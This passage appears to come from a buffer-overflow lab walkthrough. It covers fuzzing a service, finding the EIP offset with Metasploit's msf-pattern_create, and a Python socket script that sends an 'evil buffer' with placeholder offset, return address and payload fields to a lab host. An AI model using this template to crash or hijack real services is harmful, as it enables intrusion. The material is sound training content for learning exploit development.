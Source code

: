 - This will send strings in increasing size of 100 till 30 x 100 or 3000. 
- Make a note of the point where the overflow happens
- If this doesn't suffice then you need to make appropriate adjustments in counter size or buffer length



## Pattern Create

Next the length at which the buffer overflow happens - we will utilize the Metasploit's Pattern Create functionality to provide us with the payload to locate EIP
The pattern create can be done with

> **msf-pattern_create -l <>**


Syntax of msf-pattern_create
```
Usage: msf-pattern_create [options]
Example: msf-pattern_create -l 50 -s ABC,def,123
Ad1Ad2Ad3Ae1Ae2Ae3Af1Af2Af3Bd1Bd2Bd3Be1Be2Be3Bf1Bf

Options:
    -l, --length <length>            The length of the pattern
    -s, --sets <ABC,def,123>         Custom Pattern Sets
    -h, --help                       Show this message
```



## Crash Replication & Controlling EIP

Next up, we replicate the buffer overflow with the intention of capturing where the EIP register really is.  
For this we utilize the following script

```
import socket

ip = "10.10.166.63"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
